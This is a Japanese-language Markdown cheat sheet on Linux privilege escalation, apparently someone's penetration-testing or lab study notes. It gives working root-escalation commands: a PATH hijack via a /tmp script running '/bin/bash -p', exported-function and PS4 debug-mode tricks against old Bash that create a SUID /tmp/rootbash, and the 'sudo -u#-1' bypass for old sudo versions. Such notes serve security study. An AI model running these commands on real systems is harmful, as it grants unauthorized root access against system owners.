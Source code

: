 # Linux Privilege Escalation

## 実行フロー
1. sudo -lを実行
2. LinEnumを実行
3. CronTabに設定されているスクリプトを確認
4. sudoのバージョンを確認


## 確認内容
### root権限で実行できるコマンドがあるか調べる。
```
sudo -l
```

### CronTabに設定されているスクリプトを確認
相対パス or 絶対パスのどちらで指定されているか？

### SUID / SGIDのファイルを確認
バイナリファイルの中から読み取り可能な文字列を抽出し、内部で実行されているコマンドを確認。
```
strings [FILE]
```

システムコール単位での処理の流れから、実行エラーになっているライブラリやファイルなどを確認。
```
strace [FILE]
```


#### 相対パスの場合  
tmpディレクトリに同名のスクリプトを作成。
```
echo '/bin/bash -p' | tee /tmp/[FILE]; chmod +x /tmp/[FILE]
export PATH=/tmp:$PATH
```

#### 絶対パスの場合  
1. スクリプトが配置されているディレクトリに書き込み権限があるか確認
```
ls -la | grep -iF [DIRECTORY]
```

2. スクリプト自体に書き込み権限があるか確認
```
ls -la [FILE]
```

3. Bashのバージョンを確認（デフォルトシェルがBashの場合）
```
/bin/bash --version
```

・Bash < ver4.2-048  
絶対パスの名前の関数を定義する。
```
function [ABSOLUTE PATH] { /bin/bash -p; }
export -f [ABSOLUTE PATH]
```

・Bash < ver4.4  
suid-env2をデバッグモードで実行する。
Bashをデバッグモードで実行する場合、環境変数PS4が利用されるため、PS4には/bin/bashのスクリプトをtmpディレクトリにコピーし、SUIDを付与するコマンドをセットする。
```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
/tmp/rootbash -p
```

### sudoのバージョンを確認
```
sudo -V
```

・sudo =< ver1.8.28  
他のユーザーとしてコマンドを実行できる権限（ALL）が与えられている必要あり。
```
sudo -u#-1 /bin/bash
sudo -u#4294967295 /bin/bash
```


